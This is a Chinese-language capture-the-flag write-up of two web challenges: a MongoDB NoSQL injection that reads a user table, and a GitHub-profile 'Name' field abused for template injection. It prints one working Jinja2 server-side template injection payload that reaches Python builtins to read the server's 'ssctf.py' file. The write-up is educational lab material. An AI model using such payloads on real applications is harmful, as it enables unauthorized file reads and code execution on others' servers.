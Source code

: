 **<br>**

**300  Legend？Legend！**

这道题通过尝试注入报错判断是SQL注入，但是用尽了姿势都没有搞定，于是猜想是不是什么高逼格的数据库..  果然，是一个MongoDB

http://drops.wooyun.org/tips/3939

根据文章构造payload，读取user表中的第一条。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01be290c2f2b22b46b.png)

尝试提交MD5..不对  然后登陆邮箱 发现了一个假的flag..

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01c5d0c902b3cd333f.png)

还有神奇的xss

[![](https://p1.ssl.qhimg.com/t01ebdd92e542b6f467.png)](https://p1.ssl.qhimg.com/t01ebdd92e542b6f467.png)

最后终于找到了正确的flag

[![](https://p4.ssl.qhimg.com/t01d139ad1428ce6c4c.png)](https://p4.ssl.qhimg.com/t01d139ad1428ce6c4c.png)

**<br>**

**400  Flag-Man**

登录github授权，然后发现在Your Profile中的Name是控制/users中的name

Name是可控制的,遍历目录 最后读取文件 得到flag

参见[http://drops.wooyun.org/web/13057](https://mail.qq.com/cgi-bin/mail_spam?action=check_link&amp;spam=0&amp;spam_src=1&amp;mailid=ZC0429-wnFNyJpt0_YlZ2g~GkPKD62&amp;url=http%3A%2F%2Fdrops%2Ewooyun%2Eorg%2Fweb%2F13057)

 

payload:

```
`{`%for c in [].__class__.__base__.__subclasses__()%`}``{`%if c.__name__ == 'catch_warnings'%`}``{``{`c.__init__.func_globals['linecache'].__dict__['__builtins__'].open('ssctf.py').read()`}``}``{`%endif%`}``{`%endfor%`}`
```



[![](https://p5.ssl.qhimg.com/t01b88887d008706a3b.png)](https://p5.ssl.qhimg.com/t01b88887d008706a3b.png)

更改完之后 访问user目录 得到flag

[![](https://p1.ssl.qhimg.com/t01f880ceebd665defb.png)](https://p1.ssl.qhimg.com/t01f880ceebd665defb.png)

 
